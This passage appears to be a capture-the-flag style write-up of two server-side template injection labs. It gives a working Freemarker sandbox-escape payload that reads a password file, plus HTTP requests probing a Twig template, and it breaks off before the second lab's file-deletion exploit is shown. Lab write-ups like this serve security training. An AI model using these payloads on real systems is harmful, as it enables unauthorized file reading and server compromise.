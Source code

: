 This lab uses the Freemarker template engine. It is vulnerable to server-side template injection due to its poorly implemented sandbox. To solve the lab, break out of the sandbox to read the file my\_password.txt from Carlos's home directory.

```
GET /product?productId=1 HTTP/1.1
Edit Template ->

GET /product/template?productId=1 HTTP/1.1
In response:
<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}. ${test}</p>
```

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker)

**For normal rce payloads:** Instantiating freemarker.template.utility.Execute is not allowed in the template for security reasons.

**Solution:**

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
In response:
100 113 56 105 55 115 100 57 51 108 103 102 120 113 55 115 103 50 52 103
```

[https://gchq.github.io/CyberChef/#recipe=From\_Decimal('Space',false)](https://gchq.github.io/CyberChef/#recipe=From\_Decimal\('Space',false\))

### Lab: Server-side template injection with a custom exploit

This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file /.ssh/id\_rsa from Carlos's home directory.

My account -> Preferred Name

```
POST /my-account/change-blog-post-author-display HTTP/1.1
...
blog-post-author-display=user.name&csrf=spkNqnASlalYgtmPvWgbwAlqrjm1OL3q

GET /post?postId=9 HTTP/1.1
# Post a comment, you can see the result of injection.

POST /my-account/change-blog-post-author-display HTTP/1.1
...
blog-post-author-display={{7*7}}&csrf=spkNqnASlalYgtmPvWgbwAlqrjm1OL3q - It gives error:
In response:
"/usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/ExpressionParser.php"

POST /my-account/change-blog-post-author-display HTTP/1.1
...
blog-post-author-display=7*7&csrf=spkNqnASlalYgtmPvWgbwAlqrjm1OL3q

GET /post?postId=9 HTTP/1.1
In response:
{{49}} | 13 December 2021
```
